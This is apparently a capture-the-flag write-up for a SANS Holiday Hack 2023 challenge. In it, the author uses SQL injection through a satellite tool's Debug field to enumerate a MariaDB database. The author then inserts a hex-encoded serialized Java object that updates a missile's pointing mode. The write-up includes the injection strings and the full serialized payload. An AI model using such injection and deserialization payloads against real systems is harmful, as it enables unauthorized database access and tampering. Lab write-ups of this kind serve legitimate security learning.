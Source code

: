 # OBJECTIVE 22 - Missile Diversion #

## OBJECTIVE : ##
>Thwart Jack’s evil plan by re-aiming his missile at the Sun.
#  

## HINTS: ##
<details>
  <summary>Hints provided for Objective 22</summary>
  
>-  Wombley thinks he may have left the admin tools open. I should check for those if I get stuck.
</details>

#  

## PROCEDURE : ##
This challenge continues where OBJECTIVE 21 left off.  We are still connected to the **NanoSat MO Base Station Tool** and need to figure out how to re-aim a missile that is currently aimed at Earth.

After some playing-around with the **NanoSat MO Base Station Tool** I found that by going to the **Action Service** tab, selecting the `Debug` action,  clicking on **submitAction** and clicking **Edit** I was able to pass on SQLI test strings that seemed to be parsed by the program.  For example if I enter `OR 1=1;` as value string then go to the **Parameter Service** tab,  select `Debug` and click on **getValue**, I get the output:  `rawValue: VERSION() OR 1=1: 1`

Using this method I was able to get some interesting information which I enumarted in the following table:

SQLI | String	Response
:---|:---
OR 1=1;|	VERSION() OR 1=1:1
;	VERSION():| 11.2.2-MariaDB-1:11.2.2+maria~ubu2204
=1 order by 1,2|	Unknow column ‘2’ in ‘order clause’
=1 order by 1	|VERSION()=1:0
; select table_name from information_schema.tables|	Output is very long and needs to be captured using Wireshark as per the procedure followed in Objective 20 – Camera Access but gives us a list of all the tables in the schema which is very useful to enumerate the rest.
; select * from target_coordinates|	Id: 1 \| lat: 1.14514 \| lng: -145.262
; select * from pointing_mode	|id: 1 \| numerical_mode: 0 \|
; select * from pointing_mode_to_string|	Id: 1 \| numerical_mode: 0 \| str_mode: Earth Point Mode \| str_desc: When pointing_mode is 0, targeting system applies the target_coorinates to earth. \| id: 2 \| numerical_mode: 1 \| str_mode: Sun Point Mode \| str_desc: When pointing_mode is 1, targeting system points at the sun, ignoring the coordinates.
; select * from messaging	|id: 1 \| msg_type: RedAlphaMsg \| msg_data: RONCTTLA \| id: 2 \| msg_type: MsgAuth \| msg_data: 220040DL \| id: 3 \| msg_type: LaunchCode \| msg_data: DLG2209TVX \| id: 4 \| msg_type: LaunchOrder \| msg_data: CONFIRMED \| id: 5 \| msg_type: TargetSelection \| msg_data: CONFIRMED \| id: 6 \| msg_type: TimeOnTargetSequence \| msg_data: COMPLETE \| id: 7 \| msg_type: YieldSelection \| msg_data: COMPLETE \| id: 8 \| msg_type: MissileDownlink \| msg_data: ONLINE \| id: 9 \| msg_type: TargetDownlinked \| msg_data: FALSE \| 
; select * from sattelite_query	|**[JAVA CODE](Code/SatelliteQueryFileFolderUtility.java)**
; show columns from satellite_query;|	COLUMN_NAME: jid \| COLUMN_TYPE: int(11) \| IS_NULLABLE: NO \| COLUMN_KEY: PRI \| COLUMN_DEFAULT: null \| EXTRA: auto_increment \|COLUMN_NAME: object \| COLUMN_TYPE: blob \| IS_NULLABLE: YES \| COLUMN_KEY: COLUMN_NAME: results \| COLUMN_TYPE: text \| IS_NULLABLE: YES \| COLUMN_KEY:convertedValue: null COLUMN_DEFAULT: null \| EXTRA: \| COLUMN_DEFAULT: null \| EXTRA: \|
; show columns from pointing_mode|	COLUMN_NAME: id \| COLUMN_TYPE: int(11) \| IS_NULLABLE: NO \| COLUMN_KEY: PRI \| COLUMN_DEFAULT: null \| EXTRA: auto_increment \| COLUMN_NAME: numerical_mode \| COLUMN_TYPE: int(11) \| IS_NULLABLE: YES \| COLUMN_KEY: \| COLUMN_DEFAULT: null \| EXTRA: \|

First of all – hats off for including a [Wargames reference](https://i.gifer.com/7Mzk.gif) in the `messaging` table.  Secondly by using SQL Injection it was possible to retrieve a lot of useful information.  Namely:
-	The coordinates are useless to us and we do nto need to be concerned with them.
-	The table `pointing_mode` determines where the missile is pointed and by changing the value stored under column `numerical_mode` from `0` to `1` we can re-aim the missiles to the sun.
-	The table `sattelite_query` has some kind of query in the object column and under results there is [some Java code](Code/SatelliteQueryFileFolderUtility.java)

I pasted the string I found in `satellite_query` as well as the java code in [ChatGPT](https://chat.openai.com/) and from there I learned that the string in the object column is a **serialized java object**.  The Java code retrieved from the results column takes this serialised object as it’s input and parses a SQL query, SQL update or retrieves a file.

I prompted ChatGPT to create a java program that would accept a SQL command as input and would use the [Java code I retrieved](Code/SatelliteQueryFileFolderUtility.java) to prepare a hex string that can be fed back to it as an input.  Using [this program](Code/serializer.java) I created a hex string for the SQL command ``UPDATE pointing_mode SET numerical_mode = 1 WHERE Id = 1``.
I then included the resulting serialized hex in a SQL command to add it as a new entry in `satellite_query` and I pasted this into the `debug` field similarly to how I exfiltrated the database info earlier:
```
; INSERT INTO satellite_query (jid, object)
VALUES (2, 0xaced00057372001f536174656c6c697465517565727946696c65466f6c6465725574696c69747912d4f68d0eb392cb0200035a0007697351756572795a000869735570646174654c000f706174684f7253746174656d656e747400124c6a6176612f6c616e672f537472696e673b7870010174003855504441544520706f696e74696e675f6d6f646520534554206e756d65726963616c5f6d6f6465203d2031205748455245204964203d2031);
```
(NOTE the preceeding `;` and the `0x` before the hex string)

This updated the value of `numerical_mode` in `pointing_mode` from `0` to `1` thus pointing the missile safely towards the sun and away from the Earth.

![image](https://github.com/beta-j/SANS-Holiday-Hack-Challenge-2023/assets/60655500/74e7b554-6a65-421d-8e81-f577bad6a9ab)


This write-up is almost ridiculously short for a challenge that took me **close to seven hours** to complete!  

